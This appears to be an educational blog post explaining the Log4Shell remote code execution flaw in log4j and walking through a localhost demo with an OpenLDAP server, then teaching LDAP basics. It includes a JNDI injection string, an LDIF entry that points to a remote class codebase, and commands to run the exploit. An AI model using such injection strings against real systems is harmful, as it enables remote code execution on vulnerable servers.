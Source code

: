 ```yaml
---
layout: post
title:  "Log4Shell"
permalink: /log4shell/
tags: java jndi ldap security log4shell log4j
---
```


A demonstration of how the "log4shell" remote code execution vulnerability in log4j works.

<!--more-->

My [log4shell](https://github.com/ToastNumber/log4shell) repo contains code to demonstrate this **for educational purposes only**. Read more here: [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/) and here [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).


## How it works

* [`DoJndiLookup`](https://github.com/ToastNumber/log4shell/blob/master/src/main/java/com/kelseymckenna/ldap/DoJndiLookup.java) executes the following statement:
    ```
    LOGGER.info("${jndi:ldap://localhost/cn=log4shell,dc=example,dc=com}");
    ```
* Log4J makes a request to the LDAP server ("localhost" here just for testing) with the filter/query `cn=log4shell,dc=example,dc=com`
* The server returns something like this:
    ```
    dn: cn=log4shell,dc=example,dc=com
    objectClass: javaContainer
    objectClass: javaNamingReference
    cn: log4shell
    javaClassName: foo
    javaFactory: Log4Shell
    javaCodebase: http://localhost:8000
    ```
* It makes a request to the file server (in this case just a Python3 "http.server") at `http://localhost:8000/Log4Shell.class`. It determined the URI using the `javaCodebase` and `javaFactory` attributes.
* The `Log4Shell` class implements `javax.naming.spi.ObjectFactory`. The return value from its `getObjectInstance` method is what gets logged in `DoJndiLookup`. The `getObjectInstance` method can have arbitrary code.


## How to run

1. Install the prerequisites. Adjust the command for your OS.
    ```
    sudo yum install gcc java-1.8.0-openjdk-devel maven -y
    ```
2. Run `make customize-config` OR build an image from the Dockerfile, e.g. `docker build . -t local/log4shell` then run it, e.g `docker run -it local/log4shell sh`.
3. Run
    ```
    make start-slapd
    make add-log4shell-entry
    ./ldap/search.sh "cn=log4shell,dc=example,dc=com"
    make start-http-server
    make run-exploit # You should see "WARNING: This is an arbitrary command run from Log4Shell.java!" in the logs.
    ```

## LDAP

I'll cover the main things I learned. Don't take this as gospel.

LDAP: lightweight directory access protocol.

A "directory" is a **hierarchical database**. For example, you could have an employee in that directory called Joe who works in the Engineering department at Example Company. He would be identified by a **distinguished name** (dn) of `cn=joe,ou=engineering,dc=example,dc=com`; in English that would be "Common Name: Joe, Organizational Unit: Engineering, Company: example.com" (dc means "domain component"). The entries can have attributes too, see below.

You can add entries to the database with the `ldapadd` command, specifying a `ldif` (LDAP Data Interchange Format) file to load the entries from. Entries are separated by empty lines in `ldif` files that look like this:
```
dn: c=US,dc=example,dc=com
objectclass: country
c: US

# other entries ...

dn: cn=Joe Bloggs,ou=Engineering,c=US,dc=example,dc=com
objectclass: organizationalPerson
cn: Joe Bloggs
sn: Bloggs
title: Vice President
```

In this repo I made my organization "example.com", i.e. `dc=example,dc.com`. This means all entries in the database are **descendants** of this entry. For example, I can't add an entry with a distinguished name of `cn=123`, it would need to be `cn=123,dc=example,dc=com`.

Each entry has an **`objectclass`** attribute that determines the **schema** of the entry (see [RFC2256](https://datatracker.ietf.org/doc/html/rfc2256)). For example, there's a built-in `country` object class that has a schema with a mandatory `c` attribute (the two-letter ISO 3166 country code) and some optional attributes. You have to put the mandatory attributes in the distinguished name; the example entry above for US must have a dn of `c=US,dc=example,dc=com`; it couldn't have a dn of `c=GB,dc=example,dc=com` or `x=US,dc=example,dc=com` or `x=1,c=US,dc=example,dc=com`.

Object classes have a **type hierarchy** with the abstract class `top` at the top. You can specify multiple object class attributes for an entry. You'll see in [`log4shell.ldif`](https://github.com/ToastNumber/log4shell/blob/master/ldap/log4shell.ldif) two object classes: `javaContainer` and `javaNamingReference`. The latter object class is the important one - it has the attributes we need for the exploit - but it is an "auxiliary" object class and its parent `javaObject` is an abstract class, so we specify `javaContainer` to give it a concrete ("structural" in LDAP terms) type.

You can **search** the directory like a database too. E.g. to lookup the entry for the US by ID/distinguished name you can run `ldapsearch -x -s base -b 'c=US,dc=example,dc=com'`. Or if you want to list all entries "under" US, e.g. show all departments and employees in US, then you could change `-s base` to `-s sub`. You can filter by the attributes too.

I used **[OpenLDAP](https://www.openldap.org/)** to get a stand-alone LDAP daemon called **slapd**. The Makefile customizes the database to use "example.com" as the root domain instead of "my-domain.com" and adds an "include" to import the java schema in addition to the core schema. 

In order to **modify** the database we have an admin user with the distinguished name `cn=Manager,dc=example,dc=com`. The admin user and password were configured when we originally created the database with `/usr/local/etc/openldap/slapd.ldif`. When you execute commands you can specify the password inline with `-w <password>` and specify the admin user's dn with `-D <dn>`. E.g. `ldapadd -w secret -D "cn=Manager,dc=example,dc=com" -f ldap/log4shell.ldif` will add the entries in `log4shell.ldif` to the database. The default configuration allows **read-only access to all users**.


## Notes

* Fun fact: AWS EC2 instances have a process running that automatically patches vulnerable applications! If you run `ps -ef | grep log4j-cve` you'll see `/usr/bin/log4j-cve-2021-44228-hotpatch` is running. This means JNDI lookups will print `Patched JndiLookup::lookup()` instead. Read more here: https://aws.amazon.com/blogs/opensource/hotpatch-for-apache-log4j/
    * The [`ldap/`](https://github.com/ToastNumber/log4shell/tree/master/ldap) folder has some helper scripts for querying slapd (the LDAP directory server)

